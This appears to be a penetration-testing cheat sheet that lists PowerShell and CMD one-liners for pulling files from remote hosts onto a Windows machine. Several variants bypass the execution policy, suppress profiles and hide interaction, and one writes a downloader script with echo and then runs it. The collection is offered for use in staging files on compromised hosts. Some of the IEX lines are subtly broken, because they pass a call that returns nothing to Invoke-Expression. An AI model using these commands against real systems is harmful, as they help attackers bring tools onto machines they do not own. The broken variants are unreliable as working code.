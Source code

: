 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Download**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Powershell Direct URI**
	
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Web Content Download**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Powershell Wget**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"	

**Web Content Download**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Using file**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------    



USING CMD - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.143/1.txt','c:\temp\1.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'C:\temp\1.txt'"

**Web Content Download**
	
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')"

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"


